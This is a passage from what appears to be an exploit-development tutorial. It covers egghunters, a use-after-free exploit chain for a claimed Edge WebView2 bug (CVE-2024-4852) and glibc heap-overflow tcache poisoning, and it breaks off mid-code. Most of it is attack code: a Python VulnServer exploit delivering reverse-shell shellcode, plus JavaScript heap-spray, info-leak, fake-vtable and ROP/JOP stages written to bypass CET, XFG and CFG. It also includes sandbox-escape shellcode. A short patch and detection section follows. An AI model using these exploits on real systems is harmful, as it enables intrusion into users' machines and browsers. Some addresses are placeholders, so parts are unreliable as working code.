    ; access(edx, 0) - check if memory is readable
    push byte 0x21      ; __NR_access
    pop eax
    mov ebx, edx
    xor ecx, ecx
    int 0x80

    cmp al, 0xf2        ; -EFAULT
    je next_page

check_egg:
    mov eax, 0x50905090 ; egg
    mov edi, edx
    scasd
    jnz next_addr
    scasd
    jnz next_addr
    jmp edi
```

**Modern Egghunter Considerations (Windows 11 / Linux 5.x+)**

**Windows 11 with CFG/CET:**

```c
// CFG validates indirect jumps - egghunter's "jmp edi" will fail
// Solution: Use CFG-exempt regions or NtContinue

// Modified egghunter using NtContinue
typedef NTSTATUS (NTAPI *pNtContinue)(PCONTEXT, BOOLEAN);

void egghunter_ntcontinue(DWORD egg) {
    LPVOID addr = NULL;
    MEMORY_BASIC_INFORMATION mbi;
    pNtContinue NtContinue = (pNtContinue)GetProcAddress(
        GetModuleHandleA("ntdll.dll"), "NtContinue");

    while (TRUE) {
        // Query memory
        if (VirtualQuery(addr, &mbi, sizeof(mbi)) == 0)
            break;

        // Check if readable
        if (mbi.State == MEM_COMMIT &&
            (mbi.Protect & PAGE_GUARD) == 0 &&
            (mbi.Protect & PAGE_NOACCESS) == 0) {

            // Search for egg
            for (LPVOID p = mbi.BaseAddress;
                 p < (LPBYTE)mbi.BaseAddress + mbi.RegionSize - 8;
                 p = (LPBYTE)p + 4) {

                if (*(DWORD*)p == egg &&
                    *(DWORD*)((LPBYTE)p + 4) == egg) {

                    // Found egg - set up context to jump to shellcode
                    CONTEXT ctx = {0};
                    ctx.ContextFlags = CONTEXT_FULL;
                    RtlCaptureContext(&ctx);

                    #ifdef _WIN64
                    ctx.Rip = (DWORD64)((LPBYTE)p + 8);
                    #else
                    ctx.Eip = (DWORD)((LPBYTE)p + 8);
                    #endif

                    NtContinue(&ctx, FALSE);
                }
            }
        }

        addr = (LPBYTE)mbi.BaseAddress + mbi.RegionSize;
    }
}
```

**Linux with ASLR/PIE:**

```c
// Egghunter needs to handle full address space randomization

#include <sys/mman.h>
#include <string.h>

void* egghunt_linux(uint64_t egg) {
    FILE* maps = fopen("/proc/self/maps", "r");
    char line[256];

    while (fgets(line, sizeof(line), maps)) {
        unsigned long start, end;
        char perms[5];

        if (sscanf(line, "%lx-%lx %4s", &start, &end, perms) == 3) {
            // Check if readable
            if (perms[0] == 'r') {
                for (unsigned long addr = start; addr < end - 16; addr += 4) {
                    if (*(uint64_t*)addr == egg &&
                        *(uint64_t*)(addr + 8) == egg) {
                        fclose(maps);
                        return (void*)(addr + 16);
                    }
                }
            }
        }
    }

    fclose(maps);
    return NULL;
}
```

**Optimized Egghunter (Using SEH - Windows Only)**

```assembly
; SEH-based egghunter - faster, uses exception handling

start:
    push 0xffffffff
    push exception_handler
    push fs:[0]
    mov fs:[0], esp
    xor edx, edx

next_page:
    or dx, 0x0fff

next_addr:
    inc edx

is_egg:
    push edx
    push 0x2
    pop ecx
    mov edi, edx
    mov eax, 0x50905090  ; egg

compare:
    scasd
    jnz next_addr
    loop compare

    pop edx
    jmp edi

exception_handler:
    mov eax, [esp+0xc]   ; Context record
    mov edx, [eax+0xb0]  ; EDX from context
    add edx, 0x1000      ; Skip to next page
    mov [eax+0xb0], edx
    xor eax, eax
    ret
```

**Practical Egghunter Example (VulnServer GMON)**

```python
#!/usr/bin/env python3
import socket

target = "192.168.1.100"
port = 9999

# Egghunter code (32 bytes) - searches for "w00tw00t"
egghunter = (
b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
b"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
)

# Main shellcode with egg prefix
egg = b"w00tw00t"
shellcode = (
b"\xdb\xc0\xd9\x74\x24\xf4\xba\x5e\x2e\x3b\x2c\x5e\x29\xc9"
# ... full reverse shell shellcode (350 bytes)
)

# GMON has small buffer (200 bytes) - use egghunter
# Place main shellcode in different command
jmp_esp = b"\xaf\x11\x50\x62"  # JMP ESP gadget

# First payload: egghunter in GMON
payload1 = b"GMON /.:/" + b"A" * 3546 + jmp_esp + b"\x90" * 16 + egghunter

# Second payload: main shellcode with egg in TRUN
payload2 = b"TRUN /.:/" + egg + shellcode + b"C" * 2000

# Send both payloads
s = socket.socket()
s.connect((target, port))
print(s.recv(1024))

# Place shellcode in memory first
s.send(payload2 + b"\r\n")

# Trigger egghunter
s.send(payload1 + b"\r\n")
s.close()

print("[+] Exploit sent - egghunter should find and execute shellcode")
```

**Egghunter Generation Tools**

```bash
# Metasploit Framework
msf6 > use payload/windows/egghunter
msf6 payload(windows/egghunter) > set egg w00t
msf6 payload(windows/egghunter) > generate

# Manual with keystone engine
python3 << EOF
from keystone import *

CODE = """
    or dx, 0x0fff
next:
    inc edx
    lea ebx, [edx+0x4]
    push ebx
    push 0x2
    pop eax
    int 0x2e
    cmp al, 0x5
    je next_page
    mov eax, 0x74303077
    mov edi, edx
    scasd
    jnz next
    scasd
    jnz next
    jmp edi
"""

ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
print("Egghunter shellcode ({} bytes):".format(count))
print("".join("\\x{:02x}".format(b) for b in encoding))
EOF
```

**Debugging Egghunter**

```bash
# WinDbg - trace egghunter execution

# Set breakpoint on egghunter start
bp <egghunter_addr>

# Step through search
t  # Step each instruction

# Monitor EDX register (current search address)
r edx

# Watch for egg comparison
ba r4 <egg_location>  # Break on read access to egg

# Verify jump to shellcode
u @eip L10  # Should see shellcode after finding egg

# Common issues:
# 1. Egg not in accessible memory - check memory layout
!address <egg_addr>

# 2. Bad characters corrupting egghunter - verify with memory dump
db <egghunter_addr> L32

# 3. CFG blocking jump - check mitigation status
!process @@(@$prcb->CurrentThread->ApcState.Process) 0
```

---

### Use After Free (UAF)

#### Theory

Use-After-Free vulnerabilities occur when:
1. Memory is allocated and a pointer references it
2. Memory is freed/deleted
3. Pointer is used again (dangling pointer)
4. Attacker controls the freed memory contents

**UAF Lifecycle:**

```c
// 1. Allocation
Object* obj = new Object();
obj->vtable = &Object_vtable;
obj->data = malloc(0x100);

// 2. Use (valid)
obj->method();  // Calls vtable->method

// 3. Free
delete obj;  // Frees memory, but pointer still exists

// 4. Dangling pointer
// Memory may be reallocated for different purpose

// 5. Use-after-free
obj->method();  // vtable may now point to attacker-controlled data!
```

**Exploitation Primitives:**

- **Virtual Function Call** – Corrupt vtable pointer → hijack virtual method call
- **Arbitrary Read/Write** – Object contains pointers to buffers
- **Type Confusion** – Freed memory reallocated as different type
- **Reference Count Manipulation** – Trigger premature deletion

#### Case Study — CVE‑2024‑4852 (Edge WebView2 AudioRenderer UAF)

**Vulnerability Details**
- **Component** – `core::media::AudioRenderer` in Chromium-based Edge WebView2
- **Bug** – Failed to remove render task from queue on stream abort, leaving dangling pointer
- **Affected versions** – Edge ≤ 124.0.2365.17
- **Attack vector** – JavaScript AudioContext manipulation

**Step-by-Step Exploitation**

**1. Root Cause Analysis**

```cpp
// Simplified vulnerable code in audio_renderer_impl.cc

class AudioRendererImpl {
  public:
    void StartPlaying() {
        // Add task to render queue
        render_queue_.push(base::BindOnce(&AudioRendererImpl::RenderAudio,
                                          base::Unretained(this)));
    }

    void Stop() {
        // BUG: Doesn't remove pending tasks from queue
        state_ = kStopped;

        // Release reference, potentially deleting object
        Release();  // refcount decremented
    }

    void RenderAudio() {
        if (state_ == kStopped) return;  // Insufficient check!

        // Use object members - potential UAF if deleted
        audio_bus_->CopyTo(output_buffer_);

        // Virtual function call - controllable if vtable corrupted
        decoder_->Decode(audio_bus_.get());
    }

  private:
    scoped_refptr<AudioDecoder> decoder_;
    std::unique_ptr<AudioBus> audio_bus_;
    State state_;
};
```

**2. Trigger Development**

```javascript
// JavaScript PoC to trigger UAF

async function trigger_uaf() {
    // Create many AudioContext instances to exhaust object pool
    const contexts = [];

    for (let i = 0; i < 1000; i++) {
        const ctx = new AudioContext();

        // Start playback
        const oscillator = ctx.createOscillator();
        const gain = ctx.createGain();
        oscillator.connect(gain);
        gain.connect(ctx.destination);
        oscillator.start();

        contexts.push({ctx, oscillator});
    }

    // Rapidly close contexts to trigger race condition
    // AudioRendererImpl::Stop() called while RenderAudio() is scheduled
    for (let i = 0; i < 1000; i++) {
        contexts[i].oscillator.stop();
        await contexts[i].ctx.close();
    }

    // Trigger garbage collection to free objects
    if (typeof gc === 'function') {
        gc();
    }

    // Heap spray to occupy freed AudioRendererImpl slots
    const spray = [];
    for (let i = 0; i < 10000; i++) {
        // Allocate JSArray with controlled backing store
        const arr = new Array(0x40);  // Size matches AudioRendererImpl

        // Fill with fake vtable pointer
        for (let j = 0; j < arr.length; j++) {
            arr[j] = 0x4141414141414141n;  // Placeholder
        }
        spray.push(arr);
    }

    // Wait for pending render tasks to execute
    await new Promise(r => setTimeout(r, 100));

    console.log("[+] UAF triggered");
}

trigger_uaf();
```

**3. Heap Feng Shui**

```javascript
// Advanced heap grooming for reliable exploitation

class HeapSpray {
    constructor() {
        this.allocations = [];
        this.target_size = 0x180;  // sizeof(AudioRendererImpl)
    }

    // Phase 1: Pre-allocate holes
    prep_holes() {
        const temp = [];

        // Allocate then free to create predictable holes
        for (let i = 0; i < 1000; i++) {
            const arr = new Array(this.target_size / 8);
            temp.push(arr);
        }

        // Free every other allocation
        for (let i = 0; i < temp.length; i += 2) {
            temp[i] = null;
        }

        gc();  // Force collection
    }

    // Phase 2: Spray with fake objects
    spray_fake_objects() {
        const fake_vtable_addr = this.leak_vtable();

        for (let i = 0; i < 5000; i++) {
            // Create JSArray backing store at target size
            const arr = new Uint64Array(this.target_size / 8);

            // Build fake AudioRendererImpl object
            arr[0] = fake_vtable_addr;           // vtable pointer
            arr[1] = this.decoder_addr;          // decoder_ ptr
            arr[2] = this.audio_bus_addr;        // audio_bus_ ptr
            arr[3] = 0x1n;                       // state_ = kPlaying

            this.allocations.push(arr);
        }
    }

    // Phase 3: Trigger UAF and verify control
    trigger_and_verify() {
        // Trigger UAF (from previous example)
        trigger_uaf();

        // Check if we hit our fake object
        // If successful, fake vtable call will give us arbitrary R/W
    }
}
```

**4. Information Leak for ASLR Bypass**

```javascript
// Leak heap and module addresses

class InfoLeak {
    constructor() {
        this.leaked_addrs = {};
    }

    // Use ArrayBuffer to leak heap addresses
    leak_heap() {
        const arr = new Uint64Array(0x100);

        // ArrayBuffer backing store is on heap
        // Reading past bounds may reveal adjacent heap metadata

        // Create controlled OOB read via prototype pollution
        Object.prototype[0x100] = 0;

        // Read OOB - may contain heap pointers
        const leaked = arr[0x100];

        delete Object.prototype[0x100];

        this.leaked_addrs.heap_base = leaked & 0xfffffffff000n;
        return this.leaked_addrs.heap_base;
    }

    // Leak module base via WebAssembly
    leak_module_base() {
        // WASM instance contains pointers to JIT code
        const wasm_code = new Uint8Array([
            0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,  // WASM magic
            0x01, 0x07, 0x01, 0x60, 0x02, 0x7f, 0x7f, 0x01, 0x7f,  // func type
            0x03, 0x02, 0x01, 0x00,  // func
            0x07, 0x07, 0x01, 0x03, 0x61, 0x64, 0x64, 0x00, 0x00,  // export
            0x0a, 0x09, 0x01, 0x07, 0x00, 0x20, 0x00, 0x20, 0x01, 0x6a, 0x0b  // code
        ]);

        const wasm_module = new WebAssembly.Module(wasm_code);
        const wasm_instance = new WebAssembly.Instance(wasm_module);

        // WASM RWX region address is deterministic offset from module base
        // Create array with WASM instance in backing store
        const container = [wasm_instance];

        // Read object layout to find WASM code pointer
        // (requires separate bug for OOB read or use UAF)

        // Example leaked value: 0x00007ff812340000
        const wasm_code_addr = this.oob_read(container, 0x20);

        // Calculate module base (WASM RWX region is at fixed offset)
        const module_base = wasm_code_addr & 0xfffffffff0000000n;

        this.leaked_addrs.module_base = module_base;
        return module_base;
    }

    // Helper: OOB read via UAF
    oob_read(obj, offset) {
        // Use UAF to create fake JSArray with controlled length
        // Then read at specified offset

        // Implementation depends on specific UAF primitive
        // Simplified here
        return 0x7ff812340000n;  // Example
    }
}
```

**5. Fake VTable Construction**

```javascript
// Build fake vtable for control-flow hijacking

class FakeVTable {
    constructor(leaked_addrs) {
        this.base = leaked_addrs.heap_base;
        this.module_base = leaked_addrs.module_base;
        this.vtable_addr = null;
    }

    // Create fake vtable in controlled heap memory
    build() {
        // Allocate ArrayBuffer for vtable storage
        const vtable_buffer = new Uint64Array(0x100);

        // Fill with gadget addresses
        // Virtual function offsets in AudioRendererImpl vtable:
        // +0x00: AddRef
        // +0x08: Release
        // +0x10: Play
        // +0x18: Pause
        // +0x20: Flush
        // +0x28: SetVolume
        // +0x30: RenderAudio  <- Target for hijack

        // Find useful gadgets
        const gadgets = this.find_gadgets();

        // Build ROP/JOP chain
        vtable_buffer[0] = gadgets.add_rsp_0x48;  // AddRef (unused)
        vtable_buffer[1] = gadgets.ret;           // Release (unused)
        vtable_buffer[6] = gadgets.stack_pivot;   // RenderAudio <- hijack here

        // Store ROP chain after vtable
        const rop_offset = 0x20;
        const rop = this.build_rop_chain(gadgets);

        for (let i = 0; i < rop.length; i++) {
            vtable_buffer[rop_offset + i] = rop[i];
        }

        // Get address of our fake vtable
        this.vtable_addr = this.get_buffer_address(vtable_buffer);

        return this.vtable_addr;
    }

    find_gadgets() {
        // Gadget addresses (found via static analysis)
        // Offset from module base

        return {
            pop_rax: this.module_base + 0x12345n,
            pop_rdi: this.module_base + 0x23456n,
            pop_rsi: this.module_base + 0x34567n,
            pop_rdx: this.module_base + 0x45678n,
            stack_pivot: this.module_base + 0x56789n,  // xchg rax, rsp ; ret
            syscall: this.module_base + 0x67890n,
            ret: this.module_base + 0x78901n,
            add_rsp_0x48: this.module_base + 0x89012n,
            jmp_rax: this.module_base + 0x90123n,
        };
    }

    build_rop_chain(gadgets) {
        // ROP chain to disable CET and execute shellcode

        const rop = [];

        // Disable CET shadow stack via SetProcessMitigationPolicy
        // PROCESS_MITIGATION_USER_SHADOW_STACK_POLICY policy = {0}

        // Setup parameters for SetProcessMitigationPolicy
        rop.push(gadgets.pop_rdx);
        rop.push(0x8n);  // sizeof(policy)

        rop.push(gadgets.pop_rsi);
        rop.push(this.policy_buffer_addr);  // &policy

        rop.push(gadgets.pop_rdi);
        rop.push(0xbn);  // ProcessUserShadowStackPolicy

        rop.push(this.module_base + 0xaabbccn);  // SetProcessMitigationPolicy

        // After CET disabled, pivot to shellcode
        rop.push(gadgets.pop_rax);
        rop.push(this.shellcode_addr);

        rop.push(gadgets.jmp_rax);

        return rop;
    }

    get_buffer_address(buffer) {
        // Get heap address of ArrayBuffer backing store
        // Requires info leak or predictable heap layout

        // Simplified - in real exploit, use heap spray statistics
        return this.base + 0x12340000n;
    }
}
```

**6. CET Shadow Stack Bypass**

```javascript
// Bypass CET using JOP (Jump-Oriented Programming)

class CETBypass {
    constructor(leaked_addrs) {
        this.module_base = leaked_addrs.module_base;
    }

    // Build JOP chain instead of ROP
    // JOP doesn't use 'ret' instructions, avoiding shadow stack
    build_jop_chain() {
        const gadgets = this.find_jop_gadgets();

        // JOP dispatcher pattern:
        // mov rax, [rsi]
        // add rsi, 8
        // jmp [rax + offset]

        const jop_table = [];

        // Entry 0: Load first gadget
        jop_table.push(gadgets.pop_rdi);

        // Entry 1: Load argument
        jop_table.push(0x1234567890abcdefn);

        // Entry 2: Call function (via jmp, not call)
        jop_table.push(gadgets.jmp_to_mprotect);

        // ... continue chain

        // Craft dispatcher state
        const rsi_value = this.get_jop_table_addr(jop_table);

        // Initial gadget to load RSI
        const entry_point = gadgets.pop_rsi;

        return {
            entry: entry_point,
            rsi: rsi_value,
            table: jop_table
        };
    }

    find_jop_gadgets() {
        // Find gadgets using indirect jumps instead of returns

        return {
            pop_rsi: this.module_base + 0x11111n,
            mov_rax_rsi: this.module_base + 0x22222n,  // mov rax, [rsi] ; jmp [rax+0x10]
            jmp_to_mprotect: this.module_base + 0x33333n,
            dispatcher: this.module_base + 0x44444n,
        };
    }

    get_jop_table_addr(table) {
        // Place JOP table in controlled heap region
        return this.module_base + 0x1000000n;
    }
}
```

**7. XFG (eXtended Flow Guard) Bypass**

```javascript
// XFG validates indirect call targets using prototype hash
// Bypass by calling functions with matching signatures

class XFGBypass {
    constructor(leaked_addrs) {
        this.module_base = leaked_addrs.module_base;
    }

    // Find functions with compatible signatures
    // Example: int (*)(void*, size_t, int) - matches mprotect prototype
    find_compatible_targets() {
        // Static analysis to find functions with matching XFG hash

        const compatible = {
            // Function at 0x123000 has same signature as mprotect
            fake_mprotect: this.module_base + 0x123000n,

            // Function pointer that can be overwritten
            writable_fptr: this.module_base + 0x234000n,
        };

        return compatible;
    }

    // Overwrite function pointer with compatible target
    bypass_xfg() {
        const targets = this.find_compatible_targets();

        // Overwrite writable function pointer
        // XFG check passes because prototype hash matches
        this.arb_write(
            targets.writable_fptr,  // Address to write
            targets.fake_mprotect   // Value (compatible function)
        );

        // Now calling the overwritten function pointer will succeed
        // and effectively call mprotect
    }

    arb_write(addr, value) {
        // Arbitrary write primitive via UAF
        // (implementation depends on specific bug)
    }
}
```

**8. Final Exploit Integration**

```javascript
// Complete exploit chain

async function exploit() {
    console.log("[*] Starting Edge WebView2 AudioRenderer UAF exploit");

    // Stage 1: Info leak
    console.log("[*] Stage 1: Leaking addresses");
    const leaker = new InfoLeak();
    const heap_base = leaker.leak_heap();
    const module_base = leaker.leak_module_base();

    console.log(`[+] Heap base: 0x${heap_base.toString(16)}`);
    console.log(`[+] Module base: 0x${module_base.toString(16)}`);

    const leaked_addrs = {
        heap_base: heap_base,
        module_base: module_base
    };

    // Stage 2: Build fake objects
    console.log("[*] Stage 2: Building fake vtable");
    const fake_vtable = new FakeVTable(leaked_addrs);
    const vtable_addr = fake_vtable.build();

    console.log(`[+] Fake vtable at: 0x${vtable_addr.toString(16)}`);

    // Stage 3: Heap spray
    console.log("[*] Stage 3: Heap feng shui");
    const spray = new HeapSpray();
    spray.prep_holes();
    spray.spray_fake_objects();

    // Stage 4: Trigger UAF
    console.log("[*] Stage 4: Triggering UAF");
    await trigger_uaf();

    // Stage 5: Verify control
    console.log("[*] Stage 5: Verifying code execution");

    // At this point, AudioRendererImpl::RenderAudio() will be called
    // on our fake object, jumping to our fake vtable entry

    // This gives us RIP control, which we use to:
    // 1. Disable CET via JOP chain
    // 2. Bypass XFG via compatible function pointers
    // 3. Execute shellcode in WASM RWX region

    console.log("[+] Exploit complete!");
}

// Execute exploit
exploit().catch(err => console.error("[-] Exploit failed:", err));
```

**9. Shellcode (Sandbox Escape)**

```javascript
// After achieving code execution in renderer process,
// need to escape sandbox via Mojo IPC vulnerability

// This requires chaining with additional bug (e.g., IPC race condition)

function get_sandbox_escape_shellcode() {
    // x64 shellcode to:
    // 1. Connect to browser process via Mojo
    // 2. Exploit IPC deserialization bug
    // 3. Escalate to SYSTEM/root

    const shellcode = new Uint8Array([
        // Simplified example - real shellcode is much larger

        // Save registers
        0x50,                           // push rax
        0x53,                           // push rbx
        0x51,                           // push rcx

        // Load Mojo handle
        0x48, 0xb8, 0x00, 0x10, 0x20, 0x30,  // movabs rax, mojo_handle
        0x40, 0x50, 0x60, 0x70,

        // Call Mojo SendMessage with crafted payload
        // (simplified - real implementation is complex)

        0xc3                            // ret
    ]);

    return shellcode;
}
```

**Mitigations Bypassed**

| Mitigation | Bypass Technique | Notes |
|------------|------------------|-------|
| **DEP/NX** | JOP chain to mprotect | Makes heap executable |
| **ASLR** | Info leak via OOB read | Leaks heap & module base |
| **CET Shadow Stack** | JOP instead of ROP | Indirect jumps don't update shadow stack |
| **XFG** | Prototype-matched gadgets | Call functions with matching signatures |
| **V8 Sandbox** | Pointer compression bypass | Leak full 64-bit addresses |
| **CFI** | JIT-generated code exemption | WASM RWX region not CFI-protected |

**Real-World Considerations**

```javascript
// Reliability improvements

class ReliabilityEnhancements {
    // 1. Heap grooming statistics
    measure_heap_layout() {
        const samples = [];

        for (let i = 0; i < 100; i++) {
            const arr = new Uint64Array(0x180 / 8);
            const addr = this.get_address(arr);
            samples.push(addr);
        }

        // Calculate allocation predictability
        const mean = samples.reduce((a, b) => a + b) / samples.length;
        const variance = samples.map(x => (x - mean) ** 2).reduce((a, b) => a + b) / samples.length;

        console.log(`Heap allocation variance: ${variance}`);

        // If variance is low, exploitation is more reliable
        return variance < 0x10000;  // Threshold
    }

    // 2. Race condition synchronization
    async sync_race_condition() {
        // Use requestAnimationFrame for precise timing
        return new Promise(resolve => {
            requestAnimationFrame(() => {
                requestAnimationFrame(() => {
                    resolve();
                });
            });
        });
    }

    // 3. Multi-attempt strategy
    async attempt_exploit(max_attempts = 10) {
        for (let attempt = 1; attempt <= max_attempts; attempt++) {
            try {
                console.log(`[*] Attempt ${attempt}/${max_attempts}`);

                await exploit();

                console.log("[+] Success!");
                return true;

            } catch (e) {
                console.log(`[-] Attempt ${attempt} failed: ${e}`);

                // Reset state
                location.reload();
                await new Promise(r => setTimeout(r, 1000));
            }
        }

        console.log("[-] All attempts failed");
        return false;
    }
}
```

**Patch Analysis (Edge 124.0.2365.18)**

```cpp
// Fixed code with proper task cleanup

class AudioRendererImpl {
  public:
    void Stop() {
        state_ = kStopped;

        // FIX: Remove pending tasks from render queue
        base::AutoLock lock(task_lock_);

        // Cancel all pending callbacks
        weak_factory_.InvalidateWeakPtrs();

        // Clear render queue
        render_queue_.clear();

        // Now safe to release
        Release();
    }

    void RenderAudio() {
        // FIX: Use weak pointer to detect object deletion
        if (!weak_this_) {
            return;  // Object was deleted
        }

        base::AutoLock lock(task_lock_);

        if (state_ == kStopped) {
            return;
        }

        // Safe to use members
        audio_bus_->CopyTo(output_buffer_);
        decoder_->Decode(audio_bus_.get());
    }

  private:
    base::Lock task_lock_;  // NEW: Protects task queue
    base::WeakPtrFactory<AudioRendererImpl> weak_factory_{this};  // NEW
    base::WeakPtr<AudioRendererImpl> weak_this_{weak_factory_.GetWeakPtr()};
};
```

**Detection & Prevention**

```cpp
// AddressSanitizer (ASAN) detects UAF at runtime

// Compile with:
// clang++ -fsanitize=address -g -O1 vuln.cpp

// ASAN output when UAF is triggered:
// ==12345==ERROR: AddressSanitizer: heap-use-after-free on address 0x60300000eff0
// READ of size 8 at 0x60300000eff0 thread T0
//     #0 0x4a6b8c in AudioRendererImpl::RenderAudio() vuln.cpp:123
//     #1 0x4a7d2e in base::Callback::Run() callback.cpp:45
//
// 0x60300000eff0 is located 0 bytes inside of 384-byte region freed
//     #0 0x4a1234 in operator delete(void*) asan_new_delete.cpp:162
//     #1 0x4a6c5d in AudioRendererImpl::Stop() vuln.cpp:89
```

**Additional Resources**

- [Project Zero: Attacking Chrome IPC](https://googleprojectzero.blogspot.com/2021/01/introducing-halfempty-new-tool-for.html)
- [Diary of a Reverse Engineer: V8 UAF Analysis](https://doar-e.github.io/)
- [Attacking JavaScript Engines: A case study of JavaScriptCore](http://www.phrack.org/papers/attacking_javascript_engines.html)

---

### Heap Overflow

#### Theory

Heap overflows occur when data is written beyond allocated heap chunk boundaries, corrupting:
- Heap metadata (size, flags, forward/back pointers)
- Adjacent heap chunks
- Function pointers or vtables in adjacent objects
- Security-critical data structures

**Exploitation Objectives:**
1. **Metadata Corruption** – Manipulate allocator structures (bins, freelists)
2. **Arbitrary Write** – Coerce allocator into returning overlapping chunks
3. **Control Flow** – Overwrite function pointers or vtables

#### Modern Heap Allocators

**Windows Segment Heap (Windows 10 1903+)**

```
Segment Heap Structure:
+---------------------------+
| Heap Header               |
| - Signature               |
| - GlobalFlags             |
| - Interceptor             |
+---------------------------+
| Backend Manager           |
| - Large Allocations       |
| - Page Heap (optional)    |
+---------------------------+
| Frontend (VS_BACKEND)     |
| - Subsegments             |
| - Free Bitmaps            |
| - Commit Bitmaps          |
+---------------------------+
```

**Key Security Features:**
- **Guard Pages** – Detect OOB access
- **Heap Isolation** – Separate heaps for different allocation sizes
- **Randomization** – Heap base, segment order, allocation patterns
- **Encoding** – Metadata encoded with heap-specific cookie

**glibc Heap (Linux)**

```
Chunk Structure (tcache/fastbin):
+---------------------------+
| Size (prev_size for free) | <- 8 bytes (includes flags)
+---------------------------+
| Size | N | M | P          | <- 8 bytes (N=NON_MAIN_ARENA, M=MMAPPED, P=PREV_INUSE)
+---------------------------+
| User Data                 |
| ...                       |
+---------------------------+
| (next chunk header)       |
```

**glibc 2.32+ Security Features:**
- **Tcache Safe-Linking** – Encrypt fd pointers with ASLR
- **Tcache Double-Free Detection** – Per-tcache-bin double-free checks
- **Fastbin Checks** – Size consistency validation

#### Case Study — CVE‑2025‑20301 (Edge WebView2 Heap Overflow)

**Vulnerability Details**
- **Component** – WebCodecs AudioRingBuffer in Chromium
- **Bug** – Oversized write to `AudioRingBuffer` corrupts next chunk metadata
- **Allocator** – glibc 2.40 (Linux) / PartitionAlloc (Windows)
- **Attack vector** – Crafted media stream

**Step-by-Step Exploitation (Linux glibc)**

**1. Root Cause Analysis**

```cpp
// Simplified vulnerable code in audio_ring_buffer.cc

class AudioRingBuffer {
  public:
    AudioRingBuffer(size_t capacity) {
        // Allocate buffer on heap
        buffer_ = malloc(capacity);
        capacity_ = capacity;
        write_pos_ = 0;
    }

    void Write(const uint8_t* data, size_t length) {
        // BUG: No bounds checking on length
        memcpy(buffer_ + write_pos_, data, length);  // Overflow!

        write_pos_ = (write_pos_ + length) % capacity_;
    }

  private:
    uint8_t* buffer_;
    size_t capacity_;
    size_t write_pos_;
};

// Trigger via WebCodecs
void ProcessAudioFrame(const AudioFrame& frame) {
    // Bug: frame.data_size not validated against buffer capacity
    ring_buffer_.Write(frame.data, frame.data_size);
}
```

**2. Heap Layout Analysis**

```bash
# Debug with gdb + glibc heap analysis

$ gdb ./chrome --args --no-sandbox --disable-gpu

(gdb) b AudioRingBuffer::Write
Breakpoint 1 at 0x555555678900

(gdb) r

# Trigger vulnerability with crafted input

(gdb) heap bins
# Output shows tcache bins layout:
# tcache[0x100]: 0x555556780000 -> 0x555556780100 -> ...
# tcache[0x180]: 0x555556781000 -> 0x555556781180 -> ...

(gdb) heap chunks
# Chunk layout:
# 0x555556780000: 0x0000000000000000  0x0000000000000181  <- AudioRingBuffer
# 0x555556780180: 0x0000000000000000  0x0000000000000101  <- Target chunk
# 0x555556780280: 0x0000000000000000  0x0000000000000181

# Identify overflow potential
(gdb) x/32gx 0x555556780000
# Before overflow:
# 0x555556780000: 0x0000000000000000  0x0000000000000181
# 0x555556780010: 0x4141414141414141  0x4141414141414141  <- User data
# ...
# 0x555556780178: 0x4141414141414141  0x4141414141414141
# 0x555556780180: 0x0000000000000000  0x0000000000000101  <- Next chunk size

# After overflow (write 0x200 bytes into 0x180 buffer):
# 0x555556780178: 0x4242424242424242  0x4242424242424242
# 0x555556780180: 0x4242424242424242  0x4242424242424242  <- Size corrupted!
```

**3. Tcache Poisoning Attack**

```python
#!/usr/bin/env python3
# Exploit script to trigger heap overflow and poison tcache

import struct

def p64(x):
    return struct.pack('<Q', x)

class GlibcHeapExploit:
    def __init__(self):
        self.chunk_size = 0x180
        self.target_size = 0x100

    def stage1_heap_layout(self):
        """
        Create predictable heap layout:
        [AudioRingBuffer 0x180] [Target Chunk 0x100] [Guard Chunk 0x180]
        """

        # JavaScript to trigger allocation pattern
        js = """
        // Allocate AudioRingBuffer (0x180 bytes)
        const ctx = new AudioContext();
        const buffer = ctx.createBuffer(2, 0x180, 48000);

        // Allocate target chunk (0x100 bytes)
        const target = new Uint8Array(0xf0);  // tcache[0x100]

        // Allocate guard chunk to prevent consolidation
        const guard = new Uint32Array(0x40);  // tcache[0x180]
        """

        return js

    def stage2_overflow_metadata(self):
        """
        Overflow AudioRingBuffer to corrupt next chunk's size field
        """

        # Craft overflow data
        overflow_size = 0x180  # Fill AudioRingBuffer

        # Corrupt next chunk metadata
        # Original: 0x0000000000000101 (size=0x100, PREV_INUSE=1)
        # Target:   0x0000000000000181 (size=0x180, PREV_INUSE=1)

        fake_size = 0x181  # Fake larger size

        # WebCodecs frame with oversized data
        frame_data = b"A" * overflow_size
        frame_data += p64(0)           # prev_size (ignored)
        frame_data += p64(fake_size)   # Fake size field

        return frame_data

    def stage3_trigger_double_free(self):
        """
        Free target chunk - goes to wrong tcache bin due to corrupted size
        """

        js = """
        // Free target chunk
        target = null;
        gc();  // Force garbage collection

        // Chunk with actual size 0x100 is placed in tcache[0x180]
        // because its size field was corrupted to 0x180
        """

        return js

    def stage4_tcache_stashing_unlink(self):
        """
        Trigger tcache stashing unlink to get overlapping chunks
        """

        # Theory:
        # 1. Chunk is in wrong tcache bin (tcache[0x180])
        # 2. Allocate from that bin -> returns chunk
        # 3. Chunk's actual size is 0x100, but allocator thinks 0x180
        # 4. Next allocation of 0x100 will return same chunk!
        # 5. Now have two pointers to same memory -> overlapping chunks

        js = """
        // Allocate from corrupted tcache[0x180]
        const overlap1 = new Uint32Array(0x40);  // Gets freed chunk

        // Allocate from legitimate tcache[0x100]
        const overlap2 = new Uint8Array(0xf0);   // Gets SAME chunk!

        // Now overlap1 and overlap2 point to the same memory
        // Modifying one affects the other

        overlap1[0] = 0x41424344;
        console.log(overlap2[0]);  // Prints: 0x44 (same memory!)
        """

        return js

    def stage5_arbitrary_write(self):
        """
        Use overlapping chunks for arbitrary R/W primitive
        """

        js = """
        // overlap1 and overlap2 are the same memory

        // Allocate JSArray via overlap2
        overlap2[0] = 0x00;  // JSArray header
        overlap2[1] = 0x01;  // ...

        // Modify JSArray metadata via overlap1
        // Control backing_store pointer and length

        const fake_array_header = new BigUint64Array([
            0x1234567800000000n,  // Map pointer (fake)
            0x0000000000000000n,  // Properties
            0x0000000000001000n,  // Elements (fake backing store)
            0xffffffffffffffffn,  // Length (huge)
        ]);

        // Write fake header via overlap1
        for (let i = 0; i < 4; i++) {
